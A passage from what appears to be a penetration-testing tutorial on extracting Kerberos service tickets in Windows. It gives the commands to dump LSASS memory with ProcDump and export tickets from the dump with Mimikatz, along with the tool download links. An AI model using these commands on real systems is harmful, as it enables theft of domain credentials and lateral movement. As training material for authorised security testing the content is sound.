



3. Dumping and Extracting ServiceTickets
Dumping LSASS memory with
ProcDumpDownload ProcDump:
https://docs.microsoft.com/en-us/sysinternals/downloads/procdump1.
Run cmd or Powershell as Administrator
2. Dump
PS> ./procdump.exe -accepteula -ma lsass.exe lsassDump.dmp
-accepteula → to accept the EULA
-ma → to dump the entire
memory
Extracting
the tickets from memory dump(.dmp) with MimikatzDownload mimikatz:
https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20200918-fix
PS> ./mimikatz.exe
PS> sekurlsa::minidump C:\Users\pparker\Desktop\Procdump\lsassDump.dmp #load our dump fille
PS> sekurlsa::tickets /export #export tickets from the dump to files
PS>
PS>
All the files are saved in
the folder from were we have launched mimikatz
In our case:
C:\Users\pparker\Desktop\mimikatz_trunk\Win32\
